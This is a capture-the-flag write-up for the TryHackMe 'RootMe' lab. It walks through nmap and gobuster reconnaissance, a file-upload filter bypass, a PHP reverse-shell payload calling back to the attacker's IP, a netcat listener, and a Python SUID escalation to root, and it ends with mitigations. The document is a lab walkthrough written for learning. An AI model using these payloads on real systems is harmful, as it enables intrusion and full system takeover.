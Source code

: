 [RootMe](https://tryhackme.com/room/rrootme)

**Date:** [28/05/2025]  
**Difficulty:** [Easy]  
**Objective:** [Reconnaissance, getting a shell, privilege escalation, capture the flag.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.120.173]  
**Service/Ports:** [22/SSH, 80/HTTP]  
**Entry Point:** [Web shell upload: shell.phtml because .php wasn't accepted.]  
**Privilege Escalation:** [SUID binary]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

### Passive

## Active

nmap -sS -sV -sC 10.10.120.173
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

----

## 4. Enumeration
   Web: gobuster
    
Findings:
```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.120.173/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.120.173/panel/]
```


----

## 5. Exploitation

   On /Panel there is an upload option to test if it is possible to upload a web shell.

   Exploit script:
```
<?php
$sock=fsockopen("10.21.***.***",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
Set up listener:
```
nc -lvnp 4444
```

Gained Access As: www-data

----

## 6. Privilege Escalation

   Method: SUID
```
/usr/bin/python
```
    
 GTFObin:
    ```
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```

Escalated To: root

----

## 7. Post Exploitation

Root Flag found at /root/root.txt

----

## 8. Flags / Proof

User Flag: THM{***_***_*_*****}

Root Flag: THM{********_**********}

    
        

----

## 9. Mitigations

| Vulnerability             | Risk   | Suggested Mitigation                                           |
|---------------------------|--------|-----------------------------------------------------------------|
| SUID bit from Python      | High   | chmod u-s /usr/bin/python                                       |
| Misconfigured Web Server  | High   | Strict File Type Validation; Only allow specific types          |


----

## 10. Notes

Time spent: [e.g., 30 minutes]

 Tools used: nmap, gobuster

 Lessons learned: [This CTF highlighted the critical risk of insecure file upload mechanisms, where bypassing extension filters led to remote code execution. It also reinforced the importance of auditing SUID binaries, as simple misconfigurations enabled privilege escalation to root.]
